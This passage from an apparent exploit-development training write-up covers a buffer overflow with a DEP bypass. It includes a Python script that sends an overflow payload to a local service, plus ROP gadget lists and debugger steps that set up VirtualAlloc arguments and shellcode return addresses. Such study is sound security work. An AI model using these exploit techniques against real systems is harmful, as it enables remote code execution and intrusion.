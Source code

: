 ```py


payload = b'\x41' * (1052 - len(virtual_alloc_placeholder))
payload += virtual_alloc_placeholder
payload += pack("<L", (0x6ab2223e))  # ret
payload += rop_chain
payload += b'\x90' * 10
	
target = b'127.0.0.1'

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(payload)
except:
	print "Crashed!"
```

We put a breakpoint on POP EAX and the VirtualAlloc address was written in it

![](https://0x4rt3mis.github.io/assets/img/osed/2023-01-31-Buffer%20Overflow-DEP/2023-01-31-Buffer%20Overflow-DEP%2007:55:40.png)

Now we write it on ECX (where the 0x45454545 are) the pointer

![](https://0x4rt3mis.github.io/assets/img/osed/2023-01-31-Buffer%20Overflow-DEP/2023-01-31-Buffer%20Overflow-DEP%2007:56:30.png)

![](https://0x4rt3mis.github.io/assets/img/osed/2023-01-31-Buffer%20Overflow-DEP/2023-01-31-Buffer%20Overflow-DEP%2008:01:55.png)

Now we can move on to the next argument

# Return Addreses

Now we'll make the shellcode return address and the shellcode address, which will be both the same (0x46464646 and 0x47474747)

First we need to inc ecx in 4 bytes, because we need to align the stack, and the we'll make a copy operation of ECX to EAX, then we'll increase the EAX address in, for that we'll POP the value -320 on the EDX, then  make a NEG instruction, to -320 become 320, add this value on EAX and then write it on the ECX (0x46464646).

Now just, make 4 bytes increase in ECX, and simple write the EAX value again in it.

```
0:000> ?0x0 - 0x320
Evaluate expression: -800 = fffffce0
```

```
0x68aca037,  # inc ecx; ret;
0x68aca037,  # inc ecx; ret;
0x68aca037,  # inc ecx; ret;
0x68aca037,  # inc ecx; ret;
0x6ab445f9,  # mov eax, ecx; ret;
0x61e30fe3,  # pop edx; ret;
0xfffffce0,  # -320
0x6eb47012,  # neg edx; ret;
0x6ab00690,  # add eax, edx; ret;
0x6d9cb59c,  # mov dword ptr [ecx], eax; ret;
0x68aca037,  # inc ecx; ret;
0x68aca037,  # inc ecx; ret;
0x68aca037,  # inc ecx; ret;
0x68aca037,  # inc ecx; ret;
0x6d9cb59c,  # mov dword ptr [ecx], eax; ret;
```
